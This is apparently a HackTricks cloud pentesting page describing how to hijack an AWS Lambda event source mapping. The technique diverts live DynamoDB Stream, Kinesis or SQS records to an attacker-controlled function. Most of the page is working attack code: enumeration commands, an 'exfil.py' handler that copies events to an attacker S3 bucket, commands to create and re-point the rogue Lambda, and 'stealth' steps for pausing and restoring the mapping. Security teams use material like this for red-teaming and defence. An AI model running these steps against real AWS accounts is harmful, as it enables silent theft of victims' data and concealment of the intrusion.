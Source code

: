 # AWS - Hijack Event Source Mapping to Redirect Stream/SQS/Kinesis to Attacker Lambda

{{#include ../../../../banners/hacktricks-training.md}}

Abuse `UpdateEventSourceMapping` to change the target Lambda function of an existing Event Source Mapping (ESM) so that records from DynamoDB Streams, Kinesis, or SQS are delivered to an attacker-controlled function. This silently diverts live data without touching producers or the original function code.

## Impact
- Divert and read live records from existing streams/queues without modifying producer apps or victim code.
- Potential data exfiltration or logic tampering by processing the victim's traffic in a rogue function.

## Required permissions
- `lambda:ListEventSourceMappings`
- `lambda:GetEventSourceMapping`
- `lambda:UpdateEventSourceMapping`
- Ability to deploy or reference an attacker-controlled Lambda (`lambda:CreateFunction` or permission to use an existing one).

## Steps

1) Enumerate event source mappings for the victim function
```
TARGET_FN=<victim-function-name>
aws lambda list-event-source-mappings --function-name $TARGET_FN \
  --query 'EventSourceMappings[].{UUID:UUID,State:State,EventSourceArn:EventSourceArn}'
export MAP_UUID=$(aws lambda list-event-source-mappings --function-name $TARGET_FN \
  --query 'EventSourceMappings[0].UUID' --output text)
export EVENT_SOURCE_ARN=$(aws lambda list-event-source-mappings --function-name $TARGET_FN \
  --query 'EventSourceMappings[0].EventSourceArn' --output text)
```

2) Prepare an attacker-controlled receiver Lambda (same region; ideally similar VPC/runtime)
```
cat > exfil.py <<'PY'
import json, boto3, os, time

def lambda_handler(event, context):
    print(json.dumps(event)[:3000])
    b = os.environ.get('EXFIL_S3')
    if b:
        k = f"evt-{int(time.time())}.json"
        boto3.client('s3').put_object(Bucket=b, Key=k, Body=json.dumps(event))
    return {'ok': True}
PY
zip exfil.zip exfil.py
ATTACKER_LAMBDA_ROLE_ARN=<role-with-logs-(and optional S3)-permissions>
export ATTACKER_FN_ARN=$(aws lambda create-function \
  --function-name ht-esm-exfil \
  --runtime python3.11 --role $ATTACKER_LAMBDA_ROLE_ARN \
  --handler exfil.lambda_handler --zip-file fileb://exfil.zip \
  --query FunctionArn --output text)
```

3) Re-point the mapping to the attacker function
```
aws lambda update-event-source-mapping --uuid $MAP_UUID --function-name $ATTACKER_FN_ARN
```

4) Generate an event on the source so the mapping fires (example: SQS)
```
SOURCE_SQS_URL=<queue-url>
aws sqs send-message --queue-url $SOURCE_SQS_URL --message-body '{"x":1}'
```

5) Verify the attacker function receives the batch
```
aws logs filter-log-events --log-group-name /aws/lambda/ht-esm-exfil --limit 5
```

6) Optional stealth
```
# Pause mapping while siphoning events
aws lambda update-event-source-mapping --uuid $MAP_UUID --enabled false

# Restore original target later
aws lambda update-event-source-mapping --uuid $MAP_UUID --function-name $TARGET_FN --enabled true
```

Notes:
- For SQS ESMs, the execution role of the Lambda processing the queue needs `sqs:ReceiveMessage`, `sqs:DeleteMessage`, and `sqs:GetQueueAttributes` (managed policy: `AWSLambdaSQSQueueExecutionRole`).
- The ESM UUID remains the same; only its `FunctionArn` is changed, so producers and source ARNs are untouched.

{{#include ../../../../banners/hacktricks-training.md}}
